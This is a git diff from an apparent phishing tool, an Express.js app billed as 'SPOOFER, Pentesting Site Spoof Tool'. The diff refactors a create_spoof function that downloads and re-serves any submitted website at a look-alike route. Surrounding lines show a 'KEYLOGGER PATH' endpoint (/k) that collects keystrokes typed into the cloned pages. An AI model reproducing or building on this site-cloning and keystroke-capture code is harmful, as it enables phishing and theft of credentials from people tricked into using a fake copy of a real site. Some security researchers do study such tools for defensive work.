

Todos

diff --git a/index.js b/index.js
@@ -82,7 +82,7 @@ app.listen(PORT, (err) => {
     log(`Server running on port ${PORT}`)
 })
 
-// MIDDLEWARE
+//* MIDDLEWARE
 app.use(exp.urlencoded({extended: false}))
 app.use(exp.json())
 app.use(exp.static('static'))
@@ -91,7 +91,7 @@ app.use('/scripts', exp.static('scripts'))
 
 //* ROUTING
 
-// spoof page
+//* SERVER SPOOF
 app.get('/:spoof_url', (req, res)=>{
     // 404 on non existant spoof or invalid url
     if(!isURL(req.params.spoof_url)) return res.sendStatus(404)
@@ -99,15 +99,36 @@ app.get('/:spoof_url', (req, res)=>{
     res.send(page_cache[req.params.spoof_url].rendered_page)
 })
 
-//? Main Page
-
-// initiate new spoof
+//* INITITATE SPOOF
 app.post('/spoof', async (req, res)=>{ // takes in post form url field, and creates new spoof page from it, and responds with the url
     let url_2_spoof = decodeURI(req.body.url)
     log(`Spoof request for __ ${url_2_spoof} __`)
     let new_url = await create_spoof(url_2_spoof) // should return new path of spoofed page
     return res.redirect(`${new_url}`) // redirect to spoofed route /:spoof_url
 })
+
+//! Handle creation of new pages for caching
+async function create_spoof(url){ // creates spoof site and socket session, returns url for spoof
+    let new_page = new Page()
+
+    // TODO This must be handled by each Page object internally from now on
+    new_page.download_page = await download_page(url)
+    new_page.rendered_page = await render_page(url)
+    new_page.url = url
+
+    // TODO Access internal Page methods here 
+
+
+    // set into global pages object
+    page_cache[url] = new_page 
+    // page_cache.addPage()
+
+    //TODO Create new WS session
+
+
+
+    return new_page.url
+}
 //? KEYLOGGER PATH
 app.post('/k', async (req, res)=>{
     // log(req.body.key)
@@ -116,23 +137,6 @@ app.post('/k', async (req, res)=>{
 
     return res.sendStatus(200)
 })
-//! Handle creation of new pages for caching
-async function create_spoof(url){ // creates spoof site and socket session, returns url for spoof
-    let new_page = new Page()
-    new_page.download_page = await download_page(url)
-    new_page.rendered_page = await render_page(url)
-    new_page.url = url
-
-    // set into global pages object
-    page_cache[url] = new_page 
-    // page_cache.addPage()
-
-    // create socket session
-
-
-
-    return new_page.url
-}
 
 
 

diff --git a/static/index.html b/static/index.html
@@ -23,7 +23,8 @@
         </ul>
       </nav>
       <header class="container mx-auto text-center mt-32">
-          <h1 class="font-semibold text-5xl text-center">SPOOFER</h1>
+        <img src="/static/assets/ghost.png" alt="" class="w-24 inline-block">
+          <h1 class="font-semibold text-5xl text-center ">SPOOFER</h1>
           <h5 class="font-light text-lg text-center">Pentesting Site Spoof Tool</h5>
           <form action="/spoof" method="POST" class="mt-12 max-w-xl mx-auto w-full">
             <input type="text" name="url" id="url" class="p-2 bg-gray-200 w-full rounded-md border-2 border-gray-300" placeholder="URL (i.e. https://www.google.com)"/>
